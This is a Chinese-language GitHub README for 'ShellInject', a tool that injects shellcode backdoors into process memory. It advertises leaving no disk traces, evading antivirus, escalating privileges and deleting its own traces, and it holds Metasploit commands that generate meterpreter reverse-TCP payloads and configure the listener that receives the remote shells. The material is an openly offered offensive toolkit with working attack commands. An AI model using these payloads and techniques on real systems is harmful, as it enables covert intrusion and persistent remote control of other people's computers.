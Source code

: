# Shellinject


<br>

<div align=center>
  
![logo](https://user-images.githubusercontent.com/52789403/185021479-1816c5bc-2ad4-4d54-beca-08ba5e3b3253.png)

<br>

[![Build status](https://cdn.lyshark.com/archive/LyScript/build.svg)](https://github.com/lyshark/PeView) [![Crowdin](https://cdn.lyshark.com/archive/LyScript/email.svg)](mailto:me@lyshark.com)  [![Download x64dbg](https://cdn.lyshark.com/archive/lydebug/download.svg)](https://github.com/lyshark/lydebug/releases) 

</div>

<br>
<b>版本：1.0</b>
<br>
<b>发布日期：2021-07-05 07:25</b>
<br><br>

ShellInject 是一款通用的ShellCode后门注入器，该工具主要用于在后渗透阶段使用，工具可将后门直接注入到特定进程内存中而不会在磁盘中留下任何痕迹，注入成功后Metasploit即可获取控制权，只要对端不关机则权限会维持，由于内存注入无对应磁盘文件，所以也不会触发杀软报毒。

主要模块与功能:

 - 1.显示可注入进程
 - 2.提升自身权限
 - 3.删除自身痕迹
 - 4.字节数组格式化
 - 5.字节数组格式化
 - 6.文本压缩后异或
 - 7.字符串转为字节数组
 - 8.字节数组加密/解密
 - 9.注入字符串到自身
 - 10.注入字节数组到自身
 - 11.从文件中读入字符串并注入运行
 - 12.注入字符串到远程进程并运行
 - 13.从远程加载字符串并注入自身进程
 - 14.从文件读入加密字符串并执行反弹
 - 15.注入加密后的字符串到远程进程中

首先需要通过`Metasploit`工具生成一个有效载荷，如下是32位与64位载荷生成命令。
```C
32位载荷生成
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.116 LPORT=9999 -f c

64位载荷生成
[root@lyshark ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置也分为32位与64位，使用时需要与载荷的位数相对应。
```C
32位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.1.116
msf6 > set lport 9999

64位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
```
